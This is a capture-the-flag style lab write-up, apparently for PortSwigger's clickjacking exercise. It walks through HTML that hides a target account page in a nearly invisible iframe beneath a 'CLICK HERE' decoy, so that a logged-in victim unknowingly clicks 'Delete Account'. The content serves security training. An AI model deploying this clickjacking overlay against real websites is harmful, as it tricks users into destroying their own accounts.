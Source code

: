 ![basic-clickjacking-with-csrf-protection-cover.png](basic-clickjacking-with-csrf-protection-cover.png)

In this apprentice level lab, we will exploit the delete account flow from a website vulnerable to clickjacking even though there is some CSRF token protection present.

---

Upon logging in with the given credentials, we notice that after going to the Account’s page, all that is needed to delete a user account is click on the `Delete Account` button. Let’s use the writing material’s clickjacking template to craft our exploit:

```html
<head>
   <style>
      iframe {
        position:relative;
        width:700px;
        height:600px;
        opacity:0.1;
        z-index:2;
      }
      div {
        position:absolute;
        z-index:1;
      }
   </style>
</head>
<body>
   <div>
      CLICK HERE
   </div>
   <iframe src="${LAB_ACCOUNT_ROUTE_URL}">
   </iframe>
</body>
```

This is how the template looks on our exploit server:

![basic-clickjacking-with-csrf-protection-1.png](basic-clickjacking-with-csrf-protection-1.png)

We need to modify the location of the `CLICK ME` div tag so that it is on top of the `Delete Account` button on the vulnerable website. Note that we are setting the iframe’s opacity to `0.1` to be able to check the exploit appearance and then modifying the div’s top and left CSS properties so that when a logged in user clicks on the `CLICK ME` div on our website, they are actually clicking on the vulnerable website’s button to delete their account. After setting the top property to 500px and the left property to 50px, it looks like the buttons are aligned to perform a successful attack. At this point, our exploit looks like this:

```html
<head>
   <style>
      iframe {
        position:relative;
        width:700px;
        height:600px;
        opacity:0.1;
        z-index:2;
      }
      div {
        position:absolute;
        z-index:1;
        top:500px;
        left:50px;
      }
   </style>
</head>
<body>
   <div>
      CLICK HERE
   </div>
   <iframe src="${LAB_ACCOUNT_ROUTE_URL}">
   </iframe>
</body>
```

![basic-clickjacking-with-csrf-protection-2.png](basic-clickjacking-with-csrf-protection-2.png)

All we need to do is set the iframe’s opacity to 0.00001 or something similar so that it is almost invisible and send the exploit to our victim.

Check out this write up on Art Of Code: https://artofcode.tech/portswiggers-lab-write-up-basic-clickjacking-with-csrf-token-protection/

